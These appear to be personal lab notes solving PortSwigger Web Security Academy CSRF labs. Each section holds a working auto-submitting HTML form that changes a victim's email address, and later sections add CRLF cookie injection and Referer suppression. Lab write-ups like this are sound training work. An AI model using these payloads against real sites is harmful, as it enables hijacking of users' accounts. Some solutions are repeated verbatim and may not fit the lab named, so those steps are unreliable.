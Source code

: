 # Cross Site Request Forgery (CSRF)

## CSRF vulnerability with no defenses

https://portswigger.net/web-security/csrf/lab-no-defenses

Overall Structure

```
Fake Client with Cookie
           |
           |
           ∨
Exploit Server with malicious code Access  
           |
           |  [Automatically]
           ∨
Main Server Access to rewrite email
```

So the goal is to set the exploit server such that when the client accesses it, email is changed

Set as body of exploit server as this (taking reference from the `/my-account` page), then test & deliver the exploit to the victim

```html
<!-- Exploit code from here ---------------------------- -->
	<p>Your username is: wiener</p>
	<p>Your email is: wiener@normal-user.net</p>
	<form class="login-form" name="change-email-form" action="https://acfb1f8b1febb025c028ce1b005d0057.web-security-academy.net/my-account/change-email" method="POST">
		<label>Email</label>
		<input required="" type="email" name="a" value="">
		<input type="hidden" name="email" value="pwned@evil-user.net" />
		<button class="button" type="submit"> Update email </button>
	</form>
	<script>
		document.forms[0].submit();
	</script>
<!-- Exploit code ends here ---------------------------- -->
```

![](Pasted%20image%2020220514120116.png)

![](Pasted%20image%2020220514120122.png)

## CSRF where token validation depends on request method


![](Pasted%20image%2020220514121536.png)

The request method is POST. so changing it to GET, injecting our custom payload and uploading it on the exploit server should work.

```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac7d1fb01f6f5964c09cb9ca00190095.web-security-academy.net/my-account/change-email" method="GET">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="PebMbRdqcsvMdZQSxtJtRr8VRiNbqjJ8">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

![](Pasted%20image%2020220514121934.png)


```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac1c1f341f6b83b2c0fe382500b50027.web-security-academy.net/my-account/change-email" method="GET">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="PebMbRdqcsvMdZQSxtJtRr8VRiNbqjJ8">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where token validation depends on token being present

Just remove the token
```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac1c1f341f6b83b2c0fe382500b50027.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <!--<input required="" type="hidden" name="csrf" value="">-->
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

This should work

  
## CSRF where token is not tied to user session
https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session

Just login, inspect element to get the value of the csrf token (from the csrf input), and put it in the exploit

![](Pasted%20image%2020220514123251.png)

```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac511f561e76d771c08d133900a100ff.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="LHaigSgDqSRPYp4Q0jLhqouUMHEC2Y1Y">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where token is tied to non-session cookie
https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie

Used the Writeup

Cookies

![](Pasted%20image%2020220514124122.png)

CSRF Token

![](Pasted%20image%2020220514124441.png)

Just need to add code to set the csrfKey cookie
Need to keep looking through the webpages

```html
<img src="https://0a1400b70354a569c1cd589500e50056.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=4AUNHwEKzhn7G8evThlbMJcxgovvdW4Y" onerror="document.forms[0].submit()">

<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://0a1400b70354a569c1cd589500e50056.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="kKuaPsSSqgbzIsaKzoT0CJrsJ20xyOum">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where token is duplicated in cookie
https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie

```html
<img src="https://0a57009b03ab3a2dc1d461a400610048.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=AAAABBBBCCCC" onerror="document.forms[0].submit()">

<div id="account-content">
    <form class="login-form" name="change-email-form" action="https://0a57009b03ab3a2dc1d461a400610048.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="AAAABBBBCCCC">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where Referer validation depends on header being present
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

```html
<meta name="referrer" content="never">

<img src="https://0a7000900402532ec00dad9b00ab007c.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=AAAABBBBCCCC" onerror="document.forms[0].submit()">

<div id="account-content">
    <form class="login-form" name="change-email-form" action="https://0a7000900402532ec00dad9b00ab007c.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF with broken Referer validation
https://portswigger.net/web-security/csrf/lab-referer-validation-broken

```html
<meta name="referrer" content="never">

<div id="account-content">
    <form class="login-form" name="change-email-form" action="https://0a7000900402532ec00dad9b00ab007c.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```